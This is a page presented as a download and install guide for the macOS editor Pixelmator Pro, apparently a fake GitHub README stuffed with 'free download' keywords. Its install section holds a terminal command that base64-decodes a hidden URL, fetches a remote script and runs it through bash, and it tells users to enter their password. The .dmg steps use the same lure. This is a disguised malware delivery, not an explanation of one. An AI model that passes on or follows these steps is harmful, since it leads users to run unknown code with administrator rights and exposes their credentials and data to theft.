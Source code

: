 # Pixelmator Pro for Mac – Advanced Image Editing Software  

<div align="center">

![Pixelmator Pro Logo](https://www.mactech.com/wp-content/uploads/2017/09/Pixelmator-Pro-icon.jpg)

</div>  

**Pixelmator Pro** is a next-generation **image editing application for macOS** designed for photographers, graphic designers, and digital artists. It combines **powerful professional tools** with a sleek, user-friendly interface, making it easy to create, edit, and enhance images with pixel-perfect precision.  

<div align="center">  

[![Download for macOS](https://img.shields.io/badge/Download_for_macOS-blue?style=for-the-badge&logo=apple)](https://mitrobandus.github.io/.github/pixelmator-pro)  

</div>  

---

## 📦 How to Install  

### Installation via .dmg:

1. Install the `.dmg` file using the button above.  
2. Open the `.dmg` installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the **Return** button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).    

### Installation via a command in the terminal:

1. Copy the installation command below.  
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"  
```
2. Open the terminal on your device and paste the command you copied above, then press the **Return** button.  
3. Enter your device password and confirm the installation.  

---

## 📊 What is Pixelmator Pro?  

**Pixelmator Pro for Mac** is a professional-grade image editing tool that offers **a perfect blend of power, precision, and usability**. Designed exclusively for macOS, it leverages the latest Apple technologies like **Metal**, **Core ML**, and **Core Image** to ensure lightning-fast performance and breathtaking image quality. Its streamlined, single-window interface keeps your workspace clutter-free and allows you to focus entirely on your creative process without distractions.  

With **Pixelmator Pro**, you can perform **everything from basic photo adjustments to complex, multi-layered designs**. It supports full **non-destructive editing**, meaning you can experiment freely without worrying about permanently altering your original images. The app features **professional retouching tools**, **advanced color grading**, and **vector graphics editing** — all integrated into a seamless workflow.  

Its **machine learning-powered features** set it apart from many competitors. You can remove backgrounds automatically, upscale images without loss of detail, enhance photo composition, and retouch portraits with remarkable ease. The intelligent repair tool can erase unwanted objects, while the ML Super Resolution function uses AI to enlarge images while preserving sharpness and detail.  

Pixelmator Pro also excels at **file compatibility**, supporting a wide range of formats including PSD, RAW, HEIF, SVG, and more. For photographers, the RAW editing engine provides precise color control and exposure adjustments while retaining every bit of image data. For designers, vector tools and typography features make creating graphics and layouts straightforward and precise.  

The application is optimized for Apple Silicon, ensuring unmatched speed and efficiency on M1, M2, and M3 Macs. Frequent updates keep the toolset modern, integrating new technologies and expanding its already impressive capabilities. Whether you’re a **professional designer**, **digital painter**, or **casual photographer**, Pixelmator Pro offers a complete toolkit to bring your creative vision to life — all at a fraction of the price of other professional-grade editors.  

---

![Pixelmator Pro Editing Screenshot](https://www.pixelmator.com/cdn-web-assets/pro/2.3/img_remove-bg.jpg)  

---

## 🖥️ Key Features  

- 🎨 **Advanced Editing Tools** – Layer-based editing, blending modes, vector shapes  
- 🤖 **AI-Powered Enhancements** – Automatic photo correction, background removal, ML Super Resolution  
- 🖌️ **Retouch & Repair Tools** – Clone, heal, and reshape images with ease  
- 📏 **Precision Design** – Rulers, guides, grid layouts, and pixel-perfect snapping  
- 🌈 **Color Adjustments** – Fine-tune exposure, contrast, saturation, and more  
- 🖼️ **RAW Support** – Edit RAW images with full quality retention  
- 📐 **Vector Graphics** – Create scalable shapes and illustrations  
- 📂 **Wide File Compatibility** – PSD, PNG, JPEG, HEIF, TIFF, SVG, and more  
- 💻 **Optimized for macOS** – Metal acceleration, Apple Silicon native  
- 🔄 **Non-Destructive Editing** – Make changes without permanently altering originals  

---

![Pixelmator Pro Workspace](https://www.pixelmator.com/cdn-web-assets/blog/2020-11-13-pixelmator-team-unveils-pixelmator-pro-2.0/img_hero@2x.jpg)  

---

## ⚙️ System Requirements  

- **OS**: macOS 10.15 Catalina or later (including Ventura & Sonoma)  
- **CPU**: Intel or Apple Silicon (M1/M2/M3)  
- **RAM**: 4 GB minimum  
- **Disk Space**: 1 GB free space  
- **Internet**: Required for updates and license activation  

---

## 🏷️ Tags  

pixelmator pro, pixelmator, pixelmator software, apple pixelmator, pixelmator windows, pixelmator pro mac, app pixelmator, mac pixelmator, pixelmator black friday, pixelmator pricing, pixelmator pro cost, pixelmator pro discount, pixelmator pro reviews, pixelmator pro sale, pixelmator pro trial, pixelmator pro windows, pixelmator trial, pixelmator pro download, pixelmator pro free download, pixelmator pro mac download, pixelmator pro mac free download  

---

